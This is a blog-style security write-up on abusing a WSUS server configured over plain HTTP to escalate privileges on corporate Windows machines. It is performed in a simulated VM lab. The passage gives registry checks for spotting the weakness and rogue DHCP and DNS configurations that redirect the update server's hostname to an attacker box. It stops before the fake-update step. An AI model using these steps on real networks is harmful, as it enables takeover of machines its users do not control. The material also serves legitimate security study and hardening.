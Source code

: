 ```yaml
---
layout: post
title: Exploiting WSUS misconfiguration to priviledge escalate on companies Windows computers
---
```


In this post we will explore a simulation of a possible attack that I have spotted in the wild. Given that by company policy I am not allowed to alter the original PCs, this will be a simulated environment using VMs recreated as loyally as possible to the original golden image.

# Pre-requisites
- Being able to control the network's DHCP
  - This can be achieved in multiple ways in reality, but the way I'll do it is by bridging network interfaces and disconnecting the "wifi"
  - An example of more "stealthy" attack would be to host a wifi network
- Having a DNS server (possibly on the same network)
- [pywsus](https://github.com/GoSecure/pywsus)
- [Sysinternals](https://learn.microsoft.com/en-us/sysinternals/) or any Microsoft signed executable

# Detection
```
PS > reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v WUServer
  [...output...] http://wsusserver.domain.internal
PS > reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate\AU /v UseWUServer
  UseWUServer    REG_DWORD    0x1
```

If we get http (and NOT https) in the first output and 0x1 in the second, it means the system is vulnerable and we note down the domain name of the WSUS server.

This attack uses the fact that http requests are not authenticated. We also should be wary of people possibly sniffing DNS queries if they own the network as often the domain names for the WSUS servers are fairly recognizeable and could leak the targeted domain to spoof later on (finding out the domain name without access to the machine).

# Setup
To perform this attack I will use a Kali machine with the following packages installed from `apt`: `isc-dhcp-server` and `dnsmasq` (technically dnsmasq also has a DHCP server) and the git clone'd pywsus
The target machine is a Windows 10 machine. We normally are only given a AD User without access to the machine's administration.

We want the two machines to be in the same network, either by having one common "internet-less" connection or, say in a more realistic scenario, by being in the same wifi (and maybe guessing the often weak admin password for the router). Normally this attack is performed using [bettercap](https://github.com/bettercap/bettercap) but in this case I decided to go for a different route as I am not sure how easy it is to get into the same subnet in the company environment (and I didn't want to try and upset the IT departent (again)).

## dhcp
We will configure the attack box on IP `192.168.222.1` as the gateway, dhcp server and dns server (and later on the wsus server too).
The subnet will be `192.168.222.0/24` and we will let the Windows client pick any IP

Edit `/etc/dhcp/dhcpd.conf`:

```
subnet 192.168.222.0 netmask 255.255.255.0 {
  interface eth1;
  range 192.168.222.10 192.168.222.50;
  option subnet-mask 255.255.255.0;
  option routers 192.168.222.1;
  option domain-name-servers 192.168.222.1, 192.168.222.10;
  option domain-name "swag.com";
}
```


Edit `/etc/default/isc-dhcp-server`:

```
# Edit with the interface that shares the connection with the Windows machine
INTERFACESv4="eth1"
INTERFACESv6=""
```

```
sudo ifconfig eth1 192.168.222.1/24
sudo systemctl restart isc-dhcp-server.service
```

## dns
We modify `/etc/dnsmasq.conf` as follows:

```
domain-needed
listen-address=127.0.0.1
listen-address=192.168.222.1
bind-interfaces

address=/wsusserver.domain.internal/192.168.222.1
```


```
sudo ifconfig eth1 192.168.222.1/24
sudo systemctl restart dnsmasq
```

----

Now we verify that the Windows box, once connected to the same network (might require to disable and re-enable the interface) automatically gets an IP address and sets the DNS to our attacker box. This is important because changing the DNS settings or any adapter's settings requires admin privileges.

